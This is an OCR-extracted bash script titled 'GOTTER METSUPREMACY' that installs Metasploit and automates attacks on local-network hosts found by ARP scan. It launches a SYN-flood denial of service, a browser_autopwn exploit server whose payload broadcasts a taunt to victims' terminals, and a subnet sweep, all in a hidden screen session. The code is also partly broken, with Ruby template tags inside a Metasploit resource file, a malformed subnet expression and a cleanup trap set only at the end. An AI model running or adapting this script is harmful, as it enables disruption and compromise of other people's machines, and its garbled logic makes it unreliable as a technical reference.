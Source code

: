 ```bash
#!/bin/bash
# GOTTER METSUPREMACY (v3.0) - One-Click Dominance

# Auto-Config Matrix
sudo apt-get update -qq && \
sudo apt-get install -y -qq \
metasploit-framework \
arp-scan \
screen \
xdotool \
expect > /dev/null

# Nuclear Payload Core
cat > ~/.msf4/msfconsole.rc <<'EOF'
use auxiliary/dos/tcp/synflood
set RHOSTS <%= File.read('targets.txt').strip %>
set RPORT 80
set THREADS 50
run -j

use auxiliary/server/browser_autopwn
set SRVHOST <%= `hostname -I`.strip %>
set URIPATH /
set PAYLOAD_LINUX generic/custom
set PAYLOAD_CMD echo -e "\033[1;31mYOU GOTTED!\033[0m" | wall
run -j

use auxiliary/scanner/discovery/arp_sweep
set RHOSTS <%= `hostname -I | cut -d. -f1-3`.0/24 %>
run -j
EOF

# Target Acquisition Protocol
sudo arp-scan -lq | awk '/08:00:27/ {print $1}' > targets.txt

# Metasploit Automation Matrix
screen -dmS gotter_attack expect -c '
spawn msfconsole -qr ~/.msf4/msfconsole.rc
expect "auxiliary(autopwn)" { send "sleep 10\r" }
expect "auxiliary(autopwn)" { send "sessions -l\r" }
interact
'

# Defense Fortification
sudo iptables -A INPUT -p tcp --dport 80 -m string --string "YOU GOTTED" --algo bm -j DROP
sudo arp -i $(ip route | awk '/default/{print $5}') -s $(ip route | awk '/default/{print $3}') $(ip link | awk '/link\/ether/{print $2}' | head -n1)

# Victory Verification Loop
while true; do
  if grep -q "GOTTED" /var/log/syslog; then
    echo -e "\033[1;32m[+] Target compromised! Check their terminal.\033[0m"
    break
  fi
  sleep 1
done

# Cleanup Protocol
trap 'sudo pkill -f metasploit; sudo iptables -F' EXIT
```
